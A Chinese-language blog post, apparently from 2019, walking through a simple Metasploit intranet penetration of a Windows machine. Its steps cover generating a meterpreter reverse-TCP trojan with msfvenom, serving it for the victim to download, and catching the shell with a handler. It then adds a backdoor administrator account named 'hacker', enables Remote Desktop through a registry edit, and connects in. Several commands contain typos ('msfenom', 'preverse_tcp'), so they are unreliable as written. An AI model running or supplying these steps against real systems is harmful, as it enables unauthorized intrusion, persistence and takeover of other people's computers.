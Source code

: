 ```yaml
---
layout:     post
title:      MSF 简单内网渗透
subtitle:   linux下利用Metasploit做一个简单的内网渗透
date:       2019-3-18
author:     张云
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 正所谓前人栽树，后人乘凉。

# 前言
1.kali 终端运行 msfconsole

2.用MSF下的msfvenom来生成木马程序到根目录。

命令：msfenom -p /windows/meterpreter/preverse_tcp lhost=“这里写你的本机ip” lport=“这里写你的端口，注意！不要和已经开启的端口冲突。” -f exe >/muma.exe

3.开启一个简易web服务器。

命令：python SimpleHTTPServer 8080

4.用目标机的浏览器访问下载木马程序。

5.加载 exp。

命令：use  exploit/multi/handler

6.设置我们的payload。

命令：set /windows/meterpreter/preverse_tcp

set lhost “本机ip”

set lport “你刚才的端口”。

7.查看我们的设置。

命令：show options

8.开启监听。

命令：run

9.目标机器下载并点击我们的木马文件。

10.得到meterpreter，shell到目标的终端。

命令：shell

11.添加一个用户。

net user hacker 123.com /add

12.把创建的用户加入到管理员组。

net localgroup administrators hacker /add

13.打开目标3389端口。

命令：REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

14.kali 运行链接远程桌面的工具。

rdesktop “目标的ip”

15.完成。
